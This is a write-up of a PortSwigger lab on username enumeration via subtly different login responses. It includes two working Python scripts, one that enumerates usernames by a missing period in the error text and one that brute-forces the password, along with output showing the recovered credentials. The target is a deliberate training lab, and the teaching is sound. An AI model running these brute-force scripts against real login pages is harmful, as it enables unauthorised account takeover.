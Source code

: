 # Username enumeration via subtly different responses | Dec 21, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses), you'll learn: Username enumeration via subtly different responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073335.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073345.png)

**Let's try to input an invalid username:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073448.png)

When we typed an incorrect username, it'll output `Invalid username or password.`.

**Hmm... Let's try to brute force the username via a python script and see what will happened:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password.' not in loginRequestText:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0aae00600417467ec6e20053003100c7.web-security-academy.net/login'
    cookie = {'session': 'YSJFWoT0ornpyiDE6rqu7iTuGCDPU5lV'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username.py 
[+] Found user: info
```

**Hmm... We found user `info`? Let's confirm that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073934.png)

Did you notice the differences between a valid username and an invalid username error output?

- `Invalid username or password.`
- `Invalid username or password`

**A valid username is missing the `.`!**

**Armed with above information, let's brute force the password via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'info',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0aae00600417467ec6e20053003100c7.web-security-academy.net/login'
    cookie = {'session': 'YSJFWoT0ornpyiDE6rqu7iTuGCDPU5lV'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password.py 
[+] Found password: 159753
```

Found it!

**Let's login as user `info`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221074232.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221074238.png)

We're user `info`!

# What we've learned:

1. Username enumeration via subtly different responses